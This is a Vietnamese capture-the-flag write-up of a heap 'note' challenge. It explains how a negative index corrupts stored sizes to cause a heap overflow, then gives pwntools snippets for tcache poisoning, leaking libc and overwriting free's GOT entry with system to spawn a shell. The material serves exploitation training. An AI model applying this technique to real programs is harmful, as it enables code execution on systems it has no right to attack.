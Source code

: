 **1. Tìm bug**
  - chương trình thực hiện một note như này
  - ![image](https://user-images.githubusercontent.com/113702087/217473671-e2db4496-683c-455b-a50f-cb4e4f3267a4.png)
  - note được thao tác trên heap, các chunk được lưu tại book và size được lưu tại notesize
  - ![image](https://user-images.githubusercontent.com/113702087/217472594-2a0eb93a-93f9-4900-9b17-b8118495102f.png)
  - kiểu tấn công mong muốn: tcache poisoning
  - ta có sẵn hàm add, remove và edit, tuy nhiên sau khi rm, thì chunk đó cũng bị xóa, vậy nên không thể sử dụng edit để tạo bug UAF
  - ![image](https://user-images.githubusercontent.com/113702087/217475941-ce3d52cf-1eb0-4096-a8d7-c190c1b31e49.png)
  - arg của add_note là id và được ép kiểu int, do đó ta có thể nhập số âm, với notesize lại ở trên book do đó ta có thể control được size của chunk tương ứng
  - tại hàm edit khi thực hiện read thì size được lấy theo notesize do đó sẽ gây lỗi heap overflow
  - ![image](https://user-images.githubusercontent.com/113702087/217485741-87c700c9-8e77-44be-a3a5-94bfb713f6df.png)

**2. Exploit**
  - sử dụng kỹ thuật poisoning để cấp phát một chunk theo ý muốn, ở đây chunk muốn cấp phát là 0x404000
  - chunk này nằm trên free got do đó có thể ghi đè được got, cùng với việc malloc có thể làm mất dữ liệu của các địa chỉ liền kề do đó có thể gây crash chương trình khi cấp phát vào got
  - sau khi có được địa chỉ 0x404000 ta có thể dùng overflow để leak libc với hàm readnote
  - ta sẽ tạo chunk như sau
  ```
  size_t = 16
note(1, 0, size_t)
note(1, 1, size_t)
note(1, 2, size_t)
choice(2)
choice(1)
note(1, -4, 48)
  ```
  - ta sẽ tạo một chunk với id -4 ghi đè vào notesize để overflow chunk đầu và 2 chunk sau sẽ được free
  - ![image](https://user-images.githubusercontent.com/113702087/217495229-50016da5-3e9b-4654-88c2-9a7b6b25c4a0.png)
  - setup các chunk từ tcache
  ```
  payload = b'a'*24 + p64(0x31) + p64(exe.got['free']-0x18)
note(2, 0, size_t, payload)
note(1, 1, size_t, b'/bin/sh\x00')
note(1, 2, size_t, b'a'*16)
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/217500341-750462df-b3f7-4f60-990d-17e386803c92.png)
  - control lại size của 0x404000 và leak libc
  ```
  note(1, -3, 48)
choice(2, 4) #(id, choice = 3)
r.recv(22)
libc_leak = r.recv(6)
libc.address = u64(libc_leak + b'\x00'*2) - 0x1e3bb0
print(hex(u64(libc_leak + b'\x00'*2)))
print(hex(libc.address))
  ```
  - ghi đè free got thành system và lấy shell
  ```
  payload = b'a'*0x18 + p64(libc.sym['system'])
note(2, 2, size_t, payload)
choice(1)
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/217500910-81ef4230-529f-4596-9e5b-94603214cf6c.png)
  - ![image](https://user-images.githubusercontent.com/113702087/217501119-c59ed49b-3216-42fb-97d3-ff8cf1e3e779.png)
